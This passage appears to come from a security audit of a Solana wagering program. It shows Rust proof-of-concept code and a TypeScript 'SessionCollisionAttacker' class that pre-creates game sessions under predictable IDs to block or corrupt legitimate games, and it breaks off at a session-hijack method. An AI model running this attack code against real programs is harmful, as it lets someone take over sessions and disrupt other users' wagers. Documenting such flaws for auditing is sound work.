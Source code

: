 ```rust

        for id in predictable_ids {
            // Attacker can predict and pre-create sessions
            let collision_session = create_game_session(
                attacker_keypair(),
                id.to_string(),
                1 // Minimal bet
            );

            // When legitimate creator tries to use same ID
            let result = create_game_session(
                legit_creator(),
                id.to_string(),
                10000 // High-value game
            );

            // Depending on implementation, this either:
            // 1. Fails (legitimate game can't be created)
            // 2. Succeeds but corrupts state
            // 3. Overwrites attacker's session
        }
    }
}
```

### Real-World Attack Implementation
```typescript
class SessionCollisionAttacker {
    private attackerKeypair: Keypair;

    async preemptiveSessionCreation(): Promise<void> {
        // 1. Generate common session ID patterns
        const commonPatterns = [
            "game_1", "game_2", "match_1", "session_001",
            "tournament_final", "championship_match",
            "daily_game_1", "weekly_tournament"
        ];

        // 2. Pre-create sessions with these IDs
        for (const sessionId of commonPatterns) {
            try {
                await this.wagerProgram.methods
                    .createGameSession(
                        sessionId,
                        1, // Minimal bet amount
                        GameMode.WinnerTakesAllFiveVsFive
                    )
                    .accounts({
                        gameSession: this.getSessionPDA(sessionId),
                        gameServer: this.attackerKeypair.publicKey,
                        // ... other accounts
                    })
                    .signers([this.attackerKeypair])
                    .rpc();

                console.log(`Pre-created collision session: ${sessionId}`);
            } catch (error) {
                // Session already exists or creation failed
            }
        }
    }

    async hijackSpecificSession(targetSessionId: string): Promise<void> {
```
